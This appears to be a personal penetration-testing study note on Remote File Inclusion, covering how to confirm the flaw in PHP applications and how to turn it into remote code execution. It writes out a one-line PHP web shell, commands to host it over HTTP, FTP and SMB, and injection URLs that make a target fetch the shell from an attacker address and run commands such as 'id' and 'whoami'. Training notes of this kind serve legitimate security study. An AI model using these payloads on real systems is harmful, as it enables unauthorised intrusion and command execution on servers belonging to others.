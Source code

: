In this [page](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FFile%20Inclusion%20Vulnerabilities%2FRead%20vs%20Execute), we see that some functions allows the inclusion of remote URLs, which lets attackers to include remote files, this is called Remote File Inclusion. This allows two main benefits:
1. Enumerating local-only ports and web applications (i.e. SSRF)
2. Gaining remote code execution by including a malicious script that we host
## Verify RFI
First, we have to verify if RFI is possible. In PHP applications, we would look for `allow_url_include` setting being enabled. To do this, we can use the `convert.base64-encode` for the `read` parameter [technique](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FFile%20Inclusion%20Vulnerabilities%2FFile%20Disclosures%2FUsing%20PHP%20Wrappers) to read PHP configuration files, and look for the `allow_url_include` setting.
```bash
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```
However, this may not always be reliable, as even if the setting is enabled, the vulnerable function may not allow remote URL inclusion to begin with. So, a more reliable way to determine whether an LFI vulnerability is also vulnerable to RFI is to try and include a URL, and see if we can get its content. For example:
```txt
http://target-website.com/?language=http://127.0.0.1/index.php
```
> Note: We should always try to include a local URL first to ensure our attempt doesn't get blocked by a firewall or other security measure. Additionally, we should avoid including the vulnerable page itself as this may cause a recursive inclusion loop, leading to a DoS attack on the server.
## Remote Code Execution with RFI
The first step in gaining remote code execution is creating a malicious script in the language of the web application. We can use a custom web shell we download from the internet, use a reverse shell script, or write our own basic web shell. For example:
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
Now, all we have to do is host this script and include it through the RFI vulnerability. It is also a good idea to set our shell listener to common ports like `80` and `443`, as these ports may be whitelisted by the application's security measures. For example:
```bash
python3 -m http.server 80
```
Now, we can include our local shell through RFI as follows:
```txt
http://target-website.com/?language=http://OUR_IP/shell.php&cmd=id
```
### FTP
Additionally, we may also host our shell through FTP protocol. We can use Python's `pyftpdlib` as follows:
```bash
python3 -m pyftpdlib -p 21
```
This may also be useful in case http ports are blocked by a firewall or the `http://` string gets blocked by a WAF. To include our script, we can repeat what we did earlier, but use the `ftp://` scheme in the URL, as follows:
```txt
http://target-website.com/?language=ftp://OUR_IP/shell.php&cmd=id
```
If the server required valid authentication, then the credentials then be specified in the URL as follows:
```txt
http://target-website.com/?language=ftp://username:password@OUR_IP/shell.php&cmd=id
```
### SMB
If the vulnerable web application is hosted on a Windows server, then we do not need the `allow_url_include` setting to be enabled for RFI to be possible. We can instead utilize the SMB protocol. First, we can spin up an SMB server using `Impacket's smbserver.py`, which allows anonymous authentication by default, as follows:
```bash
impacket-smbserver -smb2support share $(pwd)
```
Now, we can include our script by using a UNC path (e.g. `\\<OUR_IP>\share\shell.php`), as follows:
```txt
http://target-website.com/?language=\\OUR_IP\share\shell.php&cmd=whoami
```